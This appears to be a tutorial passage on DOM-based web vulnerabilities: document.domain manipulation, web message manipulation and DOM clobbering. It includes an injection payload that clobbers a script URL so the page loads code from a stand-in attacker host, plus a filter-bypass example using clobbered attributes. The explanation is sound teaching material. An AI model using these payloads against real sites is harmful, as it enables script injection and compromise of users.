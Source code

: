 ## DOM-based document-domain manipulation
The `document.domain` property is used by browsers in their enforcement of the same origin policy. If two pages from different origins explicitly set the same `document.domain` value, then those two pages can interact in unrestricted ways. If an attacker can cause a page of a targeted website and another page they control (either directly, or via an XSS-like vulnerability) to set the same `document.domain` value, then the attacker may be able to fully compromise the target page via the page they already control.

## DOM-based web message manipulation
Web message vulnerabilities arise when a script sends attacker-controllable data as a web message to another document within the browser. An attacker may be able to use the web message data as a source by constructing a web page that, if visited by a user, will cause the user's browser to send a web message containing data that is under the attacker's control.

## DOM clobbering
DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. 

    <script>
        window.onload = function(){
            let someObject = window.someObject || {};
            let script = document.createElement('script');
            script.src = someObject.url;
            document.body.appendChild(script);
        };
    </script>
To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

    <a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.

Another common technique is to use a `form` element along with an element such as `input` to clobber DOM properties. For example, clobbering the attributes property enables you to bypass client-side filters that use it in their logic. Although the filter will enumerate the attributes property, it will not actually remove any attributes because the property has been clobbered with a DOM node. As a result, you will be able to inject malicious attributes that would normally be filtered out. For example, consider the following injection:

    <body>
        <form onclick="alert()"><input id="attributes" /></form>
    </body>
    <script>
        document.querySelectorAll("form").forEach((form) => {
            for (let i = 0; i < form.attributes.length; i++) {
                let attr = form.attributes[i]; // form.attributes = <input id="attributes">
            if (["onclick", "onmouseover"].includes(attr.name)) {
                form.removeAttribute(attr.name);
            }
            }
        });
    </script>
